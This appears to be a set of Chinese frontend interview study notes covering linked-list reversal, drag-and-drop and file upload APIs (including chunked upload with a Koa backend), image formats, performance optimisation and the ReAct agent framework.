到这一步，“数够k个、摘下来”的操作就完美完成了。接下来就可以放心地对 [1 -> 2] 这个小链表进行反转，而不用担心整个链表会断开丢失。

```
/**
 * Definition for singly-linked list.
 * function ListNode(val, next) {
 *     this.val = (val===undefined ? 0 : val)
 *     this.next = (next===undefined ? null : next)
 * }
 */
/**
 * @param {ListNode} head
 * @param {number} k
 * @return {ListNode}
 */
var reverseKGroup = function(head, k) {
    // 1. 创建虚拟头节点 (Dummy Node)，简化头部的处理
    const dummy = new ListNode(0);
    dummy.next = head;
    
    // pre 指向待翻转区间的前一个节点
    let pre = dummy;
    
    while (true) {
        // 2. 检查剩余节点是否足够 k 个
        let end = pre;
        for (let i = 0; i < k; i++) {
            end = end.next;
            // 如果不足 k 个，直接结束，保持剩余节点原样
            if (!end) return dummy.next;
        }
        
        // 3. 记录关键位置，准备“摘除”
        let start = pre.next;      // 当前组的第一个节点（翻转后会变成尾巴）
        let nextGroup = end.next;  // 下一组的第一个节点（保存后续链表）
        
        // 4. 断开连接，将当前组独立出来
        end.next = null; 
        
        // 5. 反转当前组，并连接到 pre 后面
        pre.next = reverse(start);
        
        // 6. 重新连接后续链表
        // 此时 start 已经变成了当前组的尾巴，把它连向 nextGroup
        start.next = nextGroup;
        
        // 7. 移动 pre 指针，准备处理下一组
        // pre 移动到当前组的尾巴（即 start），准备迎接下一轮
        pre = start;
    }
};

// 辅助函数：反转单链表
function reverse(head) {
    let prev = null;
    let curr = head;
    while (curr) {
        let next = curr.next; // 暂存下一个节点
        curr.next = prev;     // 反转指针
        prev = curr;          // 指针后移
        curr = next;
    }
    return prev; // 返回新的头节点
}
```

## 怎么实现拖拽功能，需要什么样的api或能力

1. 拖拽是什么

前端拖拽 = 用户用鼠标 / 手指按住元素，移动后松开，完成交互的完整行为。

2. 拖拽体验的核心好处

- 直观零学习成本：符合现实世界操作习惯（拖文件、拖东西），不用教用户就会用。 IPAD, 手机触屏，小孩子不用交
- 操作效率翻倍：减少点击、选择、确认等多步操作，一步完成
- 支持文件、元素、列表排序、布局拖拽等几乎所有交互场景

## 经典案例 GitHub 拖拽上传 VS 普通上传

GitHub 拖拽上传（你上传文件到仓库时的拖拽框）：
直接把电脑里的文件 / 文件夹拖进浏览器，松手就上传
支持批量拖拽、文件夹拖拽
全程不用打开文件选择器、不用找文件路径

拖拽上传把3~5 步操作压缩成 1 步，对用户来说是极致顺滑，这也是现代 Web 应用（百度网盘、腾讯文档、语雀、Figma）全部标配拖拽的原因。

二、 API

HTML5 原生拖拽 API

1. 被拖拽元素（源）事件：
- dragstart：开始拖拽时触发（初始化数据 / 样式）
- drag：拖拽过程中持续触发
- dragend：拖拽结束时触发（清理样式 / 状态）

2. 放置目标区域（容器）事件：

- dragover：拖拽元素在目标上移动时触发（必须阻止默认行为，否则无法放置）
- dragenter：进入目标区域
- dragleave：离开目标区域
- drop：松开鼠标完成放置

draggable="true"：HTML 元素必须加这个属性才能被拖拽
dataTransfer：拖拽数据载体（传递 id、文本、文件等数据）

- 文件拖拽 API

dataTransfer.files：获取用户拖拽的文件列表（File 对象数组）

FileReader / FormData：配合实现文件预览、上传后端

- drag/

## 如果有一个提交请求，如果请求的是图片或文件是怎么上传的

- 普通请求

普通请求传 json 文本，文件上传需用FormData，请求头指定multipart/form-data，传输二进制流，数据格式、编码方式完全不同。

```
// 构造表单数据，普通参数+文件一起传
const formData = new FormData();
formData.append('username', 'test');
formData.append('password', '123456');
formData.append('file', file); // 图片文件

// axios发送，不用手动改请求头
axios.post('/login', formData);
```

- 文件 / 图片上传，本质就是前端把二进制文件打包，后端接收并存储，最后返回可访问地址。

普通表单上传、 大文件分片上传（处理大视频 / 大压缩包）。

- 普通表单上传

1. 用 form 表单，必须加 enctype="multipart/form-data"，这是告诉后端 “我传的是文件，不是普通文本”；

2. 用 input type="file" 选择文件，通过 AJAX/axios 提交给后端。

```
<!-- 表单必须加这个编码格式 -->
<form enctype="multipart/form-data">
  <input type="file" name="file" accept="image/*" />
  <button type="button" onclick="upload()">上传图片</button>
</form>

<script>
async function upload() {
  // 1. 创建FormData，专门装文件
  const formData = new FormData();
  // 把选中的文件放进去
  formData.append('file', document.querySelector('input[type=file]').files[0]);

  // 2. 发请求
  const res = await axios.post('/api/upload', formData, {
    headers: { 'Content-Type': 'multipart/form-data' }
  });
  
  console.log("上传成功，图片地址：", res.data.url);
}
</script>
```

2. 后端怎么做

- 接收前端传来的 multipart 格式数据；
- 解析出二进制文件；
- 存到本地 / 云存储（OSS/COS），返回访问 URL。
  static 服务器， public 目录下

### 大文件分片上传

如果传几百 M 的视频、安装包，普通上传容易超时、断传就得重传。

- 前端把文件切成一片一片（比如每片 5MB）；
  http 多路复用
  失败仅重传分片
  ```
  const fileInput = document.querySelector('input[type="file"]');
const chunkSize = 5 * 1024 * 1024; // 5MB 一片

fileInput.onchange = async (e) => {
  const file = e.target.files[0];
  if (!file) return;

  // 新建 WebWorker
  const worker = new Worker('./hash.worker.js');

  // 通知 worker 开始切割+计算文件md5
  worker.postMessage({ file, chunkSize });

  // 接收 worker 返回的分片数组 + 文件唯一hash
  worker.onmessage = (e) => {
    const { chunks, fileHash } = e.data;
    console.log('文件唯一标识：', fileHash);
    console.log('所有分片：', chunks);

    // 后续并行上传分片、后端合并、秒传判断
    uploadChunks(chunks, fileHash);
  };
};

// 分片并行上传
async function uploadChunks(chunks, fileHash) {
  for (const chunk of chunks) {
    const fd = new FormData();
    fd.append('chunk', chunk.blob);
    fd.append('index', chunk.index);
    fd.append('fileHash', fileHash);
    axios.post('/api/chunk-upload', fd);
  }
}

importScripts('https://cdn.jsdelivr.net/npm/spark-md5@3.0.2/spark-md5.min.js');

// 监听主线程消息
self.onmessage = async (e) => {
  const { file, chunkSize } = e.data;
  const chunks = [];
  const spark = new SparkMD5.ArrayBuffer();
  const reader = new FileReader();

  let cur = 0;

  // 循环切片
  while (cur < file.size) {
    const blob = file.slice(cur, cur + chunkSize);
    chunks.push({
      blob,
      index: cur / chunkSize
    });
    cur += chunkSize;
  }

  // 读取文件计算整体 MD5 哈希
  reader.readAsArrayBuffer(file);
  reader.onload = (ev) => {
    spark.append(ev.target.result);
    const fileHash = spark.end(); // 文件唯一指纹

    // 把结果回传给主线程
    self.postMessage({ chunks, fileHash });
  };
};

const Koa = require('koa');
const Router = require('koa-router');
const multer = require('@koa/multer');
const fs = require('fs');
const path = require('path');
const fse = require('fs-extra');

const app = new Koa();
const router = new Router();

app.use(require('koa-body')());

// 目录配置
const UPLOAD_DIR = path.resolve(__dirname, 'upload');
const CHUNK_DIR = path.resolve(UPLOAD_DIR, 'chunks');
fse.ensureDirSync(UPLOAD_DIR);
fse.ensureDirSync(CHUNK_DIR);

const upload = multer({ dest: CHUNK_DIR });

// ======================
// 1. 秒传接口 + 查询已上传分片（断点重传核心）
// ======================
router.post('/api/check-file', async (ctx) => {
  const { fileHash, filename } = ctx.request.body;
  const ext = filename.split('.').pop();
  const finalPath = path.join(UPLOAD_DIR, `${fileHash}.${ext}`);

  // 【秒传】文件已存在，直接返回地址
  if (fs.existsSync(finalPath)) {
    ctx.body = {
      code: 200,
      shouldUpload: false,
      url: `http://localhost:3000/upload/${fileHash}.${ext}`
    };
    return;
  }

  // 【断点重传】查询该文件已经上传了哪些分片
  const chunkDir = path.join(CHUNK_DIR, fileHash);
  let uploadedChunks = [];
  if (fs.existsSync(chunkDir)) {
    uploadedChunks = await fse.readdir(chunkDir);
    uploadedChunks = uploadedChunks.map(Number).sort((a, b) => a - b);
  }

  ctx.body = {
    code: 200,
    shouldUpload: true,
    uploadedChunks // 前端拿到后，只上传缺失的分片
  };
});

// ======================
// 2. 接收单个分片
// ======================
router.post('/api/chunk', upload.single('chunk'), async (ctx) => {
  const { fileHash, index } = ctx.request.body;
  const chunkDir = path.join(CHUNK_DIR, fileHash);
  await fse.ensureDir(chunkDir);

  const chunkPath = path.join(chunkDir, index);
  await fse.move(ctx.file.path, chunkPath);

  ctx.body = { code: 200, msg: '分片上传成功' };
});

// ======================
// 3. 合并所有分片
// ======================
router.post('/api/merge', async (ctx) => {
  const { fileHash, filename } = ctx.request.body;
  const ext = filename.split('.').pop();
  const chunkDir = path.join(CHUNK_DIR, fileHash);
  const finalPath = path.join(UPLOAD_DIR, `${fileHash}.${ext}`);

  // 读取分片并排序
  let chunks = await fse.readdir(chunkDir);
  chunks = chunks.map(Number).sort((a, b) => a - b);

  // 流合并
  const writeStream = fs.createWriteStream(finalPath);
  for (const index of chunks) {
    const chunkPath = path.join(chunkDir, index);
    const readStream = fs.createReadStream(chunkPath);
    await new Promise(resolve => {
      readStream.pipe(writeStream, { end: false });
      readStream.on('end', resolve);
    });
  }
  writeStream.end();

  // 删除临时分片文件夹
  await fse.remove(chunkDir);

  ctx.body = {
    code: 200,
    url: `http://localhost:3000/upload/${fileHash}.${ext}`
  };
});

app.use(router.routes());
app.listen(3000, () => console.log('服务 3000 启动'));
  ```

- 一片一片传给后端；
- 后端全部接收完，通知后端合并所有分片；
- 合并完成返回最终地址。

核心优势：断点续传、失败重传、大文件稳定上传。

## 文章列表倾向用哪种图片形式
- 常见图片格式
1. JPG：有损压缩，体积小，无透明，适合照片、信息流封面。
2. PNG：无损压缩，支持透明，体积偏大，适合图标、logo。
3. GIF：仅 256 色，支持简单动图，画质差体积大。
4. WebP：新一代格式，有损无损都支持、透明动画一体，体积远更小。
5. AVIF：压缩率最优，画质更高体积更小，兼容性稍差。
6. SVG：矢量图，无限放大不失真，适合图标线条。
7. Base64：图片转字符串嵌入代码，无需额外请求，小图适用。

WebP 2010 年发布，AVIF 2019 年定稿；压缩更强、兼容性稍弱，目前做AVIF 优先→WebP 降级→JPG 兜底。

WebP 比 JPG 体积节省 25%~34%，肉眼画质几乎无差。补：AVIF 比 JPG 省约 50%，压缩更强。

- 文章列表倾向用哪种图片形式
用webp/avif juejin 36kr 
jd https://img12.360buyimg.com/babel/jfs/t1/423704/16/7434/22941/69e9c0b2Fd44a20d4/0276400140b77d2d.png.avif

<picture>
  <source srcset="image.avif" type="image/avif">
  <source srcset="image.webp" type="image/webp">
  
</picture>

现代浏览器：加载 AVIF（最小体积、最好画质）
较旧浏览器：加载 WebP（平衡体积与兼容）
古董浏览器：加载 JPEG（保底可用）

- 前端工程师是怎么批量去转的

npm init -y
npm install sharp

const fs = require('fs');
const path = require('path');
const sharp = require('sharp');

// 输入目录（放你要转的图片）
const inputDir = path.join(__dirname, 'imgs');
// 输出目录（自动生成 webp 图片）
const outputDir = path.join(__dirname, 'webp');

// 自动创建输出文件夹
if (!fs.existsSync(outputDir)) {
  fs.mkdirSync(outputDir);
}

// 读取所有图片
fs.readdir(inputDir, async (err, files) => {
  if (err) return console.error('读取失败:', err);

  const images = files.filter(f =>
    f.toLowerCase().endsWith('.jpg') ||
    f.toLowerCase().endsWith('.jpeg') ||
    f.toLowerCase().endsWith('.png')
  );

  for (const file of images) {
    const inputPath = path.join(inputDir, file);
    const outputPath = path.join(outputDir, path.parse(file).name + '.webp');

    await sharp(inputPath)
      .webp({ quality: 80 }) // 画质 80%，可改
      .toFile(outputPath);

    console.log('✅ 转换完成:', file);
  }

  console.log('\🎉 全部批量转换完成！');
});

- 怎么实现PC端的导航栏在上面一行，
但在移动端在右上角
mobile-menu
PC 用 flex 让导航横向排列。移动端通过媒体查询，隐藏原菜单、右上角展示汉堡按钮，菜单改为绝对定位放右上角，JS 控制点击展开收起。

## 性能优化

- 资源优化

1. 图片优化：项目里批量将 JPG/PNG 转 WebP、AVIF，用picture降级兼容；图片统一懒加载，大幅减少首屏体积。

2. 静态资源压缩：打包压缩图片、字体、图标，删除无用静态资源，图标改用 SVG + 字体图标替代图片。

- 网络优化
1. 分包与按需加载：路由、组件做路由懒加载、代码分割，非核心代码按需引入，减小首屏打包体积。
  配合服务端开启压缩，JS、CSS、静态资源体积直接砍半，全网通用刚需优化。

2. 缓存策略：合理配置强缓存、协商缓存，静态资源加 hash 命名，避免重复请求。

列表、字典、常量数据存在内存 /localStorage，重复页面不重复请求接口。

3. 请求优化：合并接口请求、减少多余轮询，接口做节流，避免高频无效网络请求。
页面别拆成好几个单独接口分开发，多个小请求合成一个接口一次性拿数据。减少请求次数、减少 HTTP 握手开销，降低网络耗时。
不用无脑定时器一直刷接口。不需要实时的场景，拉长轮询间隔；不用就直接关掉，避免后台和前端无效刷屏。websocket?
像搜索联想、输入框实时查询这类高频操作，做节流 / 防抖。

vue、react、lodash 等大件依赖剥离打包，用 CDN 引入，减小项目打包体积。

CSS 优化：减少层级、杜绝内联大量样式简化选择器层级，避免 * 通配符、深层嵌套，降低浏览器样式计算开销。

合理使用 CSS3 硬件加速固定动画、悬浮元素加 transform: translateZ(0)，开启 GPU 加速，动画更丝滑。


- 三、渲染优化
减少重排重绘：项目里避免频繁操作 DOM，批量修改样式；复杂布局用transform、opacity做动画，不走重排。
虚拟滚动：长列表用虚拟列表，只渲染可视区域 DOM，解决大量列表卡顿问题。

首屏骨架屏 + 占位优化避免白屏等待，提升用户感知性能，属于体验类核心优化。

- 代码 & 运行优化
8. 打包优化：剔除无用依赖、Tree-Shaking、压缩混淆代码，移除 console 和冗余代码。
9. 避免内存泄漏：定时器、事件监听、订阅手动销毁，防止页面长期运行卡顿。
10. 主线程减负：复杂计算丢给 Web Worker，避免长任务阻塞主线程，提升页面交互流畅度。

## 你简历上写了做过 Agent 项目，那你说说 ReAct 框架是什么？
[](https://mp.weixin.qq.com/s/wMCQvp5zi_WsaCuFT0mvFg)
ReAct 是一种 Agent 执行框架，全称是 Reasoning and Acting。它让 Agent 在每一步先推理（Thought），再执行动作（Action），然后观察结果（Observation），循环往复直到任务完成。

## 这三个词我都知道。我问的是，为什么要有 Thought 这一步？直接让 LLM 输出 Action 不行吗？

没有 Thought，LLM 看到任务就直接输出工具调用指令，错误率极高。因为复杂任务需要多步推理，LLM 如果不先"想清楚下一步该做什么、为什么这样做"，就会出现工具选错、参数填错、逻辑跳步的问题。

Thought 的本质是 Chain-of-Thought（CoT）在 Agent 场景的应用。CoT 让 LLM 在回答问题前先写出推理过程，ReAct 让 Agent 在执行动作前先写出决策依据。这不是装饰性的步骤，而是保证 Agent 不出错的核心机制。

面试官最爱问的追问：Thought 会不会浪费 token？会，但这是精度换成本。没有 Thought 的 Agent 在复杂任务下的错误率可能是有 Thought 的 3-5 倍，重试的成本远高于多写几句推理。



为什么直接输出 Action 会出错没有 Thought 的 Agent，就像一个不经思考就行动的人，看起来快，但错得也快。假设任务是"帮我查明天北京到上海的航班，选最便宜的经济舱"。如果让 LLM 直接输出 Action，它可能会这样做：第一次调用：输出 {"tool": "search_flight", "from": "北京", "to": "上海", "date": "明天"}。看起来没问题，但"明天"不是合法的日期格式，API 调用失败。第二次调用：修正为 {"tool": "search_flight", "from": "北京", "to": "上海", "date": "2026-04-24"}。这次成功了，返回 10 个航班。第三次调用：LLM 看到 10 个航班，直接输出 {"tool": "book_flight", "flight_id": "CA1234"}。但它没有比价，选的不是最便宜的，任务失败。问题出在哪里？LLM 没有机会"停下来想一想"。它看到任务就输出工具调用，看到结果就输出下一个工具调用，中间没有推理过程，所以会出现：第一，参数格式错误。LLM 不知道 API 要求的日期格式是什么，直接用自然语言"明天"填进去。第二，逻辑跳步。查到航班后应该先比价，但 LLM 直接跳到订票，因为它没有"想清楚任务的完整步骤"。第三，目标偏离。任务要求"最便宜的"，但 LLM 没有显式推理"我需要比较价格"，所以随便选了一个。这就是为什么 ReAct 要加 Thought 步骤。Thought 不是给人看的日志，而是给 LLM 自己看的推理过程。LLM 在 Thought 里写"当前状态是什么、下一步应该做什么、为什么这样做"，这个过程强迫它把任务拆解清楚，然后再输出 Action。类比一下，直接输出 Action 就像你让一个人"去超市买东西"，他冲进去随便拿了几样就结账，回来发现买错了。ReAct 是让他先列购物清单（Thought），再去拿东西（Action），拿完检查一遍（Observation），确认没问题再结账。



ReAct 的三个步骤到底是什么ReAct 的核心是一个三步循环：Thought、Action、Observation。每一步都有明确的作用，缺一不可。Thought（推理）： Agent 分析当前状态，决定下一步做什么。这一步 LLM 输出的是自然语言，不是代码或 JSON。典型的 Thought 长这样："当前状态：用户要查明天北京到上海的航班。我需要先确定明天的日期是 2026-04-24，然后调用 search_flight 工具，参数是 from=北京, to=上海, date=2026-04-24。"Thought 的作用是让 LLM 把推理过程显式写出来。写的过程就是思考的过程，LLM 会检查"我现在知道什么、还缺什么、下一步该做什么"。这个机制来自 Chain-of-Thought，研究表明让 LLM 写出推理步骤可以显著提升复杂任务的准确率。Action（执行）： Agent 调用工具，执行具体操作。这一步 LLM 输出的是结构化指令，通常是 JSON 格式的工具调用。典型的 Action 长这样：

{
   "tool": "search_flight",
   "parameters": {
     "from": "北京",
     "to": "上海",
     "date": "2026-04-24"
   }
 }

Action 是 Thought 的直接结果。因为 LLM 在 Thought 里已经想清楚了"要调用什么工具、参数是什么"，所以 Action 的输出通常是正确的。如果 Thought 写得清楚，Action 就不会出错。

Observation（观察）： Agent 接收工具返回的结果，更新当前状态。这一步不是 LLM 输出的，而是工具执行后返回的数据。典型的 Observation 长这样：

{
   "status": "success",
   "flights": [
     {"id": "CA1234", "price": 800, "time": "08:00"},
     {"id": "MU5678", "price": 650, "time": "10:00"},
     ...
   ]
 }

Observation 会被送回给 LLM，作为下一轮 Thought 的输入。LLM 看到这个结果后，会在下一个 Thought 里分析"现在我拿到了 10 个航班，需要找出最便宜的，是 MU5678，价格 650 元，接下来应该调用 book_flight"。

这三步形成一个闭环。Thought 决定做什么，Action 去执行，Observation 拿到结果，然后再进入下一轮 Thought。循环会一直跑下去，直到 LLM 在 Thought 里判断"任务已完成，不需要再调用工具了"，此时输出最终答案，循环结束。



Thought 的本质是 Chain-of-ThoughtThought 不是 ReAct 发明的新东西，而是 Chain-of-Thought（CoT）在 Agent 场景的应用。CoT 是 2022 年 Google 提出的一种提示技术，核心思想是让 LLM 在回答问题前先写出推理步骤。比如问"Roger 有 5 个网球，他又买了 2 罐，每罐 3 个球，他现在有多少个球？"，不加 CoT 的 LLM 可能直接输出"10 个"（错了），加了 CoT 的 LLM 会先写"Roger 原来有 5 个，买了 2 罐，每罐 3 个，所以是 2×3=6 个，加起来是 5+6=11 个"，然后输出"11 个"（对了）。为什么写出推理步骤就能提升准确率？因为 LLM 的推理能力不是"想清楚了再输出"，而是"边输出边推理"。当 LLM 被要求先写推理过程，它在生成每个 token 的时候都在做推理，写完推理过程后，最终答案自然就对了。ReAct 把这个机制搬到了 Agent 场景。Agent 的任务比数学题复杂得多，需要多步工具调用，每一步都可能出错。如果让 LLM 直接输出工具调用指令，它没有机会"边写边想"，所以容易出错。ReAct 强制 LLM 在每次调用工具前先写 Thought，这个过程就是在做推理，推理完了再输出 Action，准确率自然就高了。实际项目中，我们测试过有 Thought 和没有 Thought 的 Agent 在同一个任务上的表现。任务是"根据用户需求，从 5 个工具中选择合适的工具完成查询"。没有 Thought 的 Agent，工具选择错误率是 28%，有 Thought 的 Agent，错误率降到 9%。差距的根本原因是，Thought 让 LLM 有机会"想清楚为什么选这个工具"，而不是看到任务就条件反射式地输出工具名。所以，Thought 不是装饰性的步骤，而是 ReAct 效果好的根本原因。去掉 Thought，ReAct 就退化成了"直接输出 Action"，准确率会大幅下降。



Thought 会不会浪费 token面试官最爱问的追问：Thought 每次都要写一段推理，token 消耗不是更高吗？会，但这是精度换成本的合理取舍。一个典型的 Thought 大约 50-100 tokens，一个 5 步的 Agent 任务，Thought 总共消耗 250-500 tokens。看起来不少，但如果没有 Thought，Agent 的错误率会显著上升，错了就要重试，重试的成本远高于 Thought 的成本。我们做过一个成本对比实验。任务是"根据用户问题，调用 3-5 个工具完成查询"。两种方案：方案 A（无 Thought）：直接输出 Action，平均每个任务 4 步完成，每步 200 tokens（包括 prompt 和 response），总消耗 800 tokens。但错误率 25%，错了需要重试，重试平均 2 次，实际消耗 800 × 1.5 = 1200 tokens。方案 B（有 Thought）：每步先输出 Thought 再输出 Action，平均每步 300 tokens（多了 100 tokens 的 Thought），总消耗 1200 tokens。但错误率只有 8%，几乎不需要重试，实际消耗就是 1200 tokens。结论是，方案 A 看起来省 token，但算上重试成本，实际消耗和方案 B 差不多。而且方案 B 的成功率更高，用户体验更好。更重要的是，Thought 不只是为了降低错误率，还有一个隐藏的价值：可调试性。当 Agent 出了问题，你可以看 Thought 的推理过程，快速定位是哪一步的逻辑出错了。没有 Thought，你只能看到 Action 的输入输出，很难判断 LLM 为什么做出这个决策。所以，Thought 的 token 消耗不是浪费，而是必要的投资。复杂任务下，没有 Thought 的 Agent 根本跑不通，省下的 token 没有意义。

ReAct 和 CoT 的关系面试官可能会追问：ReAct 和 CoT 有什么区别？核心区别是，CoT 只推理不行动，ReAct 推理之后还能执行。CoT 是一种提示技术，用于提升 LLM 在复杂推理任务上的准确率。它的输入是问题，输出是推理过程加最终答案，全程都是文本，没有工具调用。比如"Roger 有 5 个网球...他现在有多少个球？"，CoT 的输出是"Roger 原来有 5 个，买了 2 罐，每罐 3 个，所以是 2×3=6 个，加起来是 5+6=11 个。答案是 11 个。"ReAct 是一种 Agent 执行框架，用于让 Agent 完成需要多步工具调用的任务。它的输入是任务，输出是工具调用序列加最终答案，中间会调用外部工具。比如"帮我查明天北京到上海的航班"，ReAct 的输出是"Thought: 需要调用 search_flight 工具 → Action: 调用工具 → Observation: 拿到结果 → Thought: 需要比价 → Action: 选择最便宜的 → 最终答案"。两者的关系是，ReAct 的 Thought 步骤借鉴了 CoT 的思想。CoT 让 LLM 在回答前先推理，ReAct 让 Agent 在行动前先推理。但 ReAct 不只是"CoT + 工具调用"，它还有 Observation 步骤，让 Agent 能根据工具返回的结果动态调整下一步行动，这是 CoT 做不到的。简单来说，CoT 是"想清楚再回答"，ReAct 是"想清楚再行动，行动后再想下一步"。CoT 是一次性推理，ReAct 是循环推理。


对比维度直接输出 ActionReAct（有 Thought）核心机制LLM 看到任务直接输出工具调用 JSONLLM 先输出推理过程（Thought），再输出工具调用（Action）错误率高（实测 25-30%）低（实测 8-10%）Token 消耗单次低，但重试多，总消耗高单次高，但几乎不重试，总消耗相当可调试性差（只能看输入输出，不知道 LLM 为什么这样做）好（可以看 Thought 的推理过程，快速定位问题）适用场景简单任务（单步工具调用，参数明确）复杂任务（多步推理，需要根据中间结果调整策略）和 CoT 的关系无关Thought 步骤借鉴了 CoT 的思想

面试总结面试官问 ReAct 框架，高分回答的结构应该是这样的：第一步（15秒）：先给核心定义，ReAct 是一种 Agent 执行框架，核心是 Thought-Action-Observation 三步循环。Thought 是推理，Action 是执行，Observation 是观察结果。这三步形成闭环，循环往复直到任务完成。第二步（45秒）：展开核心机制，重点讲 Thought 的作用。Thought 不是装饰性的步骤，而是保证 Agent 不出错的核心机制。它的本质是 Chain-of-Thought 在 Agent 场景的应用，让 LLM 在行动前先推理，边写边想，推理清楚再输出 Action。没有 Thought，LLM 直接输出工具调用，错误率会显著上升（实测从 8% 升到 28%）。用一个具体场景走一遍完整流程，比如查询航班任务，展示 Thought 如何避免参数错误和逻辑跳步。第三步（30秒）：主动说局限，Thought 会增加 token 消耗，每步多 50-100 tokens。但这是精度换成本的合理取舍，因为没有 Thought 的 Agent 错误率高，重试的成本远高于 Thought 的成本。复杂任务下，Thought 是必要的投资，不是浪费。如果面试官追问"Thought 步骤会不会浪费 token"，回答要点是：会增加消耗，但算上重试成本，总消耗相当。而且 Thought 还有隐藏价值，就是可调试性，出了问题可以看推理过程快速定位。